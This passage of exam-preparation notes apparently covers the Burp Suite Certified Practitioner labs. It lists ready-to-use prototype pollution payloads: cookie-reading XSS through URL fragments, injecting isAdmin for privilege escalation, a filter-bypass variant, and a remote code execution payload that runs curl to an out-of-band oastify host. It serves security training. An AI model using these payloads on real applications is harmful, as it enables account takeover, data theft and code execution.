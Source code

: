### 4. Client-side prototype pollution in third-party libraries
```
https:/site.com/#__proto__[hitCallback]=alert(document.cookie)
```

### 5. Client-side prototype pollution via browser APIs
```
https://site.com/?__proto__[value]=data:,alert(1)
```

### 6. Privilege escalation via server-side prototype pollution
```
Billing and Delivery Address:
"__proto__": {
    "isAdmin":true
}
```

### 7. Detecting server-side prototype pollution without polluted property reflection
```
"__proto__": {
 "status":555
}
```

### 8. Bypassing flawed input filters for server-side prototype pollution
>https://portswigger.net/web-security/prototype-pollution/client-side#bypassing-flawed-key-sanitization
```
 "constructor":{
"prototype":{
"isAdmin":true
}}
```

### 9. Remote code execution via server-side prototype pollution
```
"__proto__":
{"execArgv": [
  "--eval=require('child_process').execSync('curl https://kmazepmj6dq3jzpk2e4ah7fzuq0ho9cy.oastify.com')"
]}
```


# Practice exam
## Approach
Real exam is in **exactly** the same form as the practice one, so don't worry about this. I recommend you to use this walkthrough, in case you countered some issues:
>https://www.r00tpgp.com/2021/08/burp-suite-certified-practitioner-exam.html  
